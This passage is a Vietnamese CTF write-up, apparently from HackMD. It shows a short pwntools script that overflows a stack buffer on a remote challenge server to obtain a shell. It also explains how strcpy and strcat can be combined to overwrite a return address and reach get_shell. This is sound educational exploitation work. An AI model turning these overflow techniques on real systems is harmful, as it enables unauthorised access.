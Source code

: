 ```c
    printf("Welcome, %s!\n", s);
    fflush(stdout);
  }
  return 0;
}
```

- okay chỉ cần overflow đúng giá trị (0x539) là ta sẽ có ```shell```

![image](https://hackmd.io/_uploads/SJpew8bP1e.png)

script 

cần chú ý là ở đây chỉ cần dùng p32() , p64() đôi lúc nó sẽ overflow giá trị khác -> xảy ra lỗi ngoài ý muốn
```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./bofbegin')

p = remote('61.14.233.78',2112)


p.sendline(b'admin')
p.sendline(b'a'*12 + p64(0x0000000000000539))
p.interactive()
```

![image](https://hackmd.io/_uploads/BJXXPLbwyg.png)


-----------

## Interesting Functions


- bài này thì như tên bài đã đề cập , chú ý đến các function , cụ thể là ```strcpy``` và ```strcat```

checksec : 

![image](https://hackmd.io/_uploads/B16g9I-Pye.png)

login bài khá dễ hiểu , ta có thể loop vô hạn , option1 là ta có thể dùng ```strcpy``` để sao chép dữ liệu từ ```g_buf``` vào ```v5``` , ở đây ta cần chú ý là ```strcpy``` sẽ không thêm byte NULL vào cuối chuỗi -> ta có thể leak dữ liệu nhưng điều này sẽ không sử dụng ở bài này

tiếp theo sẽ là option2 sử dụng ```strcat``` , hàm này sẽ thêm 1 chuỗi vào cuối chuỗi khác và ở đây khi suy nghĩ kĩ thì ta có thể sử dụng option1 và option2 để overwrite ret_add và ```get_shell```

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-110h] BYREF
  char v5[267]; // [rsp+1h] [rbp-10Fh] BYREF
  int v6; // [rsp+10Ch] [rbp-4h] BYREF

  memset(&s, 0, 0x101uLL);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  menu();
  while ( 1 )
  {
    while ( 1 )
```